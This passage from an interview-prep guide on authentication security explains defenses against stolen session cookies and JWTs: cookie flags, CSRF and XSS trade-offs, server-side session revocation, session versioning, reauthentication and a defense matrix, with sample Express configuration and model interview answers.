or:

```text
JWT + cookie
```

but they are not the same thing.

---

# 21. What If the Cookie Is HttpOnly?

A JWT stored in an `HttpOnly` cookie is not readable by normal page JavaScript.

For example:

```ts
res.cookie("access_token", token, {
  httpOnly: true,
  secure: true,
  sameSite: "lax",
});
```

This reduces the risk of JavaScript directly stealing the token.

However, because the browser automatically sends the cookie, cookie-based JWT authentication is still exposed to CSRF concerns.

Therefore:

```text
HttpOnly
+
Secure
+
SameSite
+
CSRF defenses where needed
```

can be part of the design.

---

# 22. JWT in localStorage Has a Different Risk Profile

Another common design is:

```js
localStorage.setItem("access_token", token);
```

The advantage is that the browser does not automatically attach the token as a cookie.

The application can explicitly send:

```http
Authorization: Bearer <token>
```

However, JavaScript can read `localStorage`.

Therefore, an XSS vulnerability can potentially expose the token:

```mermaid
flowchart TD
    X[XSS] --> J[JavaScript]
    J --> L["localStorage.getItem(#quot;access_token#quot;)"]
    L --> A[attacker obtains token]
```

This is why authentication-token storage decisions are really about understanding the threat model.

A useful simplified comparison:

| Storage / transport | Main concern |
|---|---|
| HttpOnly cookie | CSRF and cookie/session theft |
| localStorage token | XSS/token theft |
| Authorization header | Token management + XSS if JS can access token |
| Server-side session | Session theft + server-side state management |

This table is intentionally simplified; real security depends on the full application architecture.

---

# 23. XSS vs CSRF vs Cookie Theft

This is a very useful interview comparison.

## XSS

Attacker executes JavaScript in your application's origin.

Potential consequence:

```text
Read sensitive page data
Make authenticated requests
Steal non-HttpOnly tokens
Modify UI
```

`HttpOnly` can reduce direct theft of an authentication cookie, but XSS remains serious.

---

## CSRF

Attacker causes the victim's browser to make an authenticated request.

The attacker generally does not need to read the cookie.

Defenses include:

```text
SameSite cookies
CSRF tokens
Origin validation
```

---

## Cookie Theft

Attacker obtains the authentication cookie itself.

Potential consequence:

```text
Replay authentication credential
```

Defenses include:

```text
HttpOnly
Secure
HTTPS
short lifetime
session rotation
revocation
session monitoring
reauthentication
endpoint security
```

---

# 24. A Layered Defense Model

A strong security architecture assumes that individual defenses can fail.

Think in layers.

```mermaid
flowchart TD
    AS[Authentication Security] --> PT[Prevent Theft]
    AS --> LL[Limit Lifetime]
    AS --> LI[Limit Impact]
    PT --> PT1["HttpOnly<br/>Secure<br/>HTTPS"]
    LL --> LL1["Short TTL<br/>Expiration"]
    LI --> LI1["Reauthentication<br/>Step-up MFA<br/>Sensitive-action checks"]
    AS --> DA[Detect Abuse]
    AS --> RA[Revoke Access]
    DA --> DA1["Session metadata<br/>Security alerts<br/>Risk signals"]
    RA --> RA1["Destroy session<br/>Log out all devices<br/>Revoke tokens"]
```

This is a much stronger mental model than:

> "Which cookie flag prevents stolen cookies?"

There is no single cookie attribute that solves the entire problem.

---

# 25. Browser Security Is Only One Part of the Problem

If the user's machine itself is compromised, browser cookie protections have limits.

For example:

```mermaid
flowchart LR
    C[User's computer] --> M[malware]
    C --> E[malicious extension]
    C --> B[compromised browser]
    C --> P[stolen browser profile]
```

If the endpoint is compromised deeply enough, the attacker may be able to access credentials or act through the user's browser.

Therefore, application security should be complemented by:

- OS updates
- browser updates
- endpoint protection
- trusted browser extensions
- device encryption
- account/device security
- phishing resistance
- MFA

An application cannot completely compensate for a fully compromised endpoint.

---

# 26. What About HTTPS?

HTTPS is essential.

Without HTTPS, an attacker on the network may be able to intercept authentication traffic.

The security goal is:

```mermaid
flowchart TD
    B[Browser] -->|TLS encrypted| S[Server]
```

not:

```mermaid
flowchart TD
    B[Browser] -->|plaintext HTTP| N[Network]
```

You should also ensure cookies are marked:

```ts
secure: true
```

in production.

---

# 27. A Practical Express Session Configuration

A typical production-oriented starting point might look like:

```ts
app.use(
  session({
    store: redisStore,
    secret: process.env.SESSION_SECRET!,
    resave: false,
    saveUninitialized: false,
    cookie: {
      httpOnly: true,
      secure: true,
      sameSite: "lax",
      maxAge: 1000 * 60 * 60, // example: 1 hour
    },
  })
);
```

The exact settings depend on your deployment.

For example, a cross-site frontend/backend architecture may require different `SameSite` behavior and explicit CSRF protections.

---

# 28. Session Secret Is Different From Cookie Theft

Recall the session secret:

```ts
secret: process.env.SESSION_SECRET
```

This is a server-side secret.

Do not confuse:

```text
bcrypt salt
```

with:

```text
session secret
```

or:

```text
session cookie
```

They have completely different purposes.

### Bcrypt salt

```mermaid
flowchart TD
    P[Password] --> H[Password hash]
    S[Random salt] --> H
```

The salt is not secret.

### Session secret

```mermaid
flowchart TD
    C["Session cookie/signing"] --> S[Server secret]
```

The secret must be protected.

### Session cookie

```mermaid
flowchart TD
    B[Browser] --> S[Session identifier]
```

The cookie is a credential and must be protected from theft.

---

# 29. What If Someone Steals the Session Secret?

This is a more serious server-side compromise.

If an attacker obtains:

```text
SESSION_SECRET
```

they may be able to compromise the security guarantees of the session-cookie signing mechanism, depending on the session implementation and configuration.

This is very different from stealing one user's cookie.

Think:

```mermaid
flowchart TD
    C[Stolen cookie] --> O["Potentially one user's session"]
```

versus:

```mermaid
flowchart TD
    S[Stolen session secret] --> A["Potentially the application's session authentication boundary"]
```

Therefore:

```text
SESSION_SECRET
```

belongs in:

- environment secrets
- a secrets manager
- protected deployment configuration

and should never be committed to Git.

---

# 30. Should We Bind Sessions to the Device?

You might consider making a session valid only from:

```text
specific IP
specific user-agent
specific device
```

This can sometimes provide additional detection signals.

But hard binding can hurt legitimate users.

For example:

```mermaid
flowchart LR
    P[Phone] --> W[Wi-Fi]
    P --> M[mobile network]
    P --> I[different IP]
```

The same user can legitimately change network conditions.

A better pattern is often:

```text
Session
 +
Device/browser metadata
 +
Risk detection
```

rather than:

```text
Session = permanently bound to one IP
```

Use these attributes as signals, not necessarily absolute identity proofs.

---

# 31. Security Notifications

Applications can notify users about important security events.

Examples:

```text
New login detected

Browser: Chrome
Device: Windows
Approximate location: Northern Israel
Time: 15:32
```

Or:

```text
Your password was changed.

If you did not perform this action,
secure your account immediately.
```

Security notifications do not prevent theft, but they can help users detect compromise.

---

# 32. Account Recovery Matters Too

Imagine an attacker steals a session.

The user logs out all devices.

Good.

But if the attacker also has access to the user's email account, they may be able to recover the account again.

Therefore, account security must include:

```text
Login
+
Sessions
+
Password reset
+
Email verification
+
MFA
+
Recovery mechanisms
```

Authentication security is a system, not just a login endpoint.

---

# 33. Password Changes Should Usually Invalidate Sessions

A useful security behavior is:

```mermaid
flowchart TD
    C[User changes password] --> I[Invalidate existing sessions]
```

Why?

If an attacker has a stolen session cookie, changing the password should give the legitimate user a way to kick the attacker out.

A strong implementation can:

```mermaid
flowchart LR
    C[Change password] --> U[update password hash]
    C --> I[invalidate existing sessions]
    C --> R[require login again]
```

The exact UX can vary, but the security goal is important.

---

# 34. Account-Level Session Versioning

One elegant pattern is to maintain something like:

```text
user.sessionVersion = 7
```

A session can contain:

```text
{
  userId: 42,
  sessionVersion: 7
}
```

If the user chooses:

> Log out all devices

the server increments:

```text
sessionVersion = 8
```

Now existing sessions containing:

```text
sessionVersion = 7
```

can be rejected.

This is one possible architecture.

Another is to explicitly store and delete every session.

The right approach depends on scale and requirements.

---

# 35. A Strong Interview Answer

If an interviewer asks:

> "How would you protect against someone stealing a user's authentication cookie?"

A concise answer could be:

> "I would treat the session cookie as a bearer credential, because possession of a valid cookie may allow impersonation. I'd use HTTPS and `Secure` cookies to protect transmission, `HttpOnly` to prevent normal JavaScript from reading the cookie, and appropriate `SameSite` and CSRF protections for cookie-based authentication. I'd use short session lifetimes and regenerate the session ID after authentication. Because I'd use server-side sessions, I could revoke a session immediately on logout, password change, or suspicious activity, and I'd support invalidating all active sessions. For sensitive operations I'd require reauthentication or step-up MFA. I'd also monitor session metadata for suspicious activity. Finally, I'd recognize that a fully compromised endpoint can defeat many browser-level protections, so endpoint security is part of the overall threat model."

That is a strong interview-level response because it demonstrates that you understand the entire threat model rather than memorizing cookie flags.

---

# 36. If the Interviewer Asks: "Can HttpOnly Prevent Cookie Theft?"

Answer:

> "It prevents normal JavaScript from reading the cookie, so it significantly reduces cookie theft through XSS. But it does not protect against every form of endpoint compromise, malicious browser extensions, malware, or someone who otherwise obtains the browser's credentials."

---

# 37. If the Interviewer Asks: "Does Secure Prevent Cookie Theft?"

Answer:

> "`Secure` prevents the browser from sending the cookie over a non-HTTPS connection. It protects the transmission channel, but it doesn't make an already-stolen cookie unusable."

---

# 38. If the Interviewer Asks: "Does SameSite Prevent Cookie Theft?"

Answer:

> "Not directly. `SameSite` primarily limits cross-site cookie sending and therefore helps mitigate CSRF. If an attacker already has the cookie value, SameSite does not invalidate it."

---

# 39. If the Interviewer Asks: "How Would You Kick Out an Attacker?"

For server-side sessions:

```text
1. Identify the compromised session
2. Delete/revoke the session in Redis
3. Browser may still have the cookie
4. Future request arrives with the cookie
5. Redis has no matching session
6. Return 401
```

For all devices:

```text
Invalidate all sessions for the user
```

For JWT:

```text
Short-lived access tokens
+
Refresh-token revocation/rotation
+
Optional denylist/session state for immediate invalidation
```

The exact design depends on the token architecture.

---

# 40. Important Security Principle: Bearer Credentials

A stolen session cookie or JWT is often effectively a **bearer credential**.

"Bearer" means roughly:

> Whoever possesses the credential can use it.

This explains why protecting the credential matters so much.

For example:

```mermaid
flowchart TD
    P[Password] -->|used during login| A[Authentication]
    A --> S[Session credential]
    S --> R[Subsequent requests]
```

The password may not be sent on every request.

Instead, the session credential represents the authenticated state.

Therefore, stealing the session credential can be nearly as useful to an attacker as stealing the password for the purpose of accessing the active session.

---

# 41. The Full Threat Model

A useful interview mental model is:

```mermaid
flowchart TD
    AUTH[Authentication] --> L[Login]
    AUTH --> S[Session]
    AUTH --> LO[Logout]
    L --> L1[Password + MFA]
    S --> S1["Cookie/token"]
    LO --> LO1[Revocation]
    L1 --> L2["Brute force<br/>Credential theft<br/>Phishing"]
    S1 --> S2["Theft/replay<br/>XSS / endpoint compromise"]
    LO1 --> LO2["Session invalidation<br/>Token revocation<br/>All-device logout"]
```

Each stage has different threats.

---

# 42. Defense Matrix

| Threat | Important defenses |
|---|---|
| Password database compromise | Strong password hashing, unique salts, strong password policy |
| Brute-force login | Rate limiting, progressive delays, monitoring, MFA |
| XSS stealing token | Output encoding, CSP where appropriate, secure coding, HttpOnly cookies |
| CSRF | SameSite, CSRF tokens, Origin validation |
| Network interception | HTTPS, Secure cookies |
| Stolen session cookie | Short TTL, revocation, session monitoring, reauthentication |
| Stolen JWT | Short access-token lifetime, refresh rotation, revocation strategy |
| Session fixation | Regenerate session ID after login/privilege change |
| Account takeover | MFA, secure recovery, session management |
| Compromised endpoint | OS/browser security, endpoint protection, phishing-resistant MFA |

---

# 43. The Key Mental Model

When thinking about stolen authentication cookies, remember:

```mermaid
flowchart TD
    Q[Can it be stolen?] --> P["Prevent / reduce theft"]
    P --> IS[If stolen...]
    IS --> DA[Detect abuse]
    IS --> LL[Limit lifetime]
    DA --> DA1["Risk signals<br/>Notifications"]
    LL --> LL1["Short TTL<br/>Expiration"]
    DA1 --> LI[Limit impact]
    LL1 --> LI
    LI --> RS["Revoke session<br/>Logout devices"]
    LI --> SU["Step-up auth<br/>MFA/password"]
```

The goal is not:

> "Make theft mathematically impossible."

The goal is:

> **Make theft harder, make stolen credentials less useful, detect abuse, and give the user/server a way to revoke access.**

---

# 44. Final Interview Cheat Sheet

### `HttpOnly`

```text
JavaScript cannot normally read the cookie.
```

Helps reduce XSS-based cookie theft.

---

### `Secure`

```text
Cookie is sent only over HTTPS.
```

Protects transmission.

---

### `SameSite`

```text
Controls cross-site cookie sending.
```

Helps mitigate CSRF.

---

### Short expiration

```text
Reduces the window in which a stolen credential is useful.
```

---

### Session regeneration

```text
Changes the session identifier after authentication.
```

Helps prevent session fixation.

---

### Server-side session revocation

```text
Delete the session in Redis.
```

Makes the stolen session cookie unusable.

---

### Session management

```text
Show active sessions.
Allow individual/all-device logout.
```

Improves detection and response.

---

### Reauthentication / step-up MFA

```text
Require stronger proof for sensitive operations.
```

Limits damage from stolen sessions.

---

### JWT

```text
Signed token containing claims.
```

If stolen, it may be usable until expiration unless additional revocation mechanisms exist.

---

### Refresh-token rotation

```text
Replace refresh tokens as they are used.
```

Can help detect replay and limit long-lived credential abuse.

---

# 45. One-Sentence Answer to Remember

If you only remember one answer for the interview, remember this:

> **"A stolen authentication cookie is a stolen bearer credential, so I would use HttpOnly and Secure cookies, HTTPS, appropriate SameSite and CSRF defenses, short session lifetimes, session regeneration, server-side revocation, session/device management, and reauthentication or step-up MFA for sensitive operations."**
